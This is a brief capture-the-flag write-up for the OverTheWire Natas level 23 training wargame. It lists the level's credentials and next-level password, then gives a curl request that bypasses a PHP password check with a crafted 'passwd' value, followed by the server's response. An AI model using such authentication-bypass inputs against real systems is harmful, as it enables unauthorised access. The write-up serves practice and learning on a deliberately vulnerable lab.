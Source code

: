 # Natas23

*	user: `natas23`
*	pass: `D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE`
*	url: [http://natas23.natas.labs.overthewire.org](http://natas23:D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE@natas23.natas.labs.overthewire.org)
*	flag: `OsRmXFguozKpTZZ5X14zNO43379LZveg`

## Procedure

$ curl -XGET -u natas23:D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE http://natas23.natas.labs.overthewire.org/?passwd=20%20iloveyou
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas23", "pass": "D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE" };</script></head>
<body>
<h1>natas23</h1>
<div id="content">

Password:
<form name="input" method="get">
    <input type="text" name="passwd" size=20>
    <input type="submit" value="Login">
</form>

<br>The credentials for the next level are:<br><pre>Username: natas24 Password: OsRmXFguozKpTZZ5X14zNO43379LZveg</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

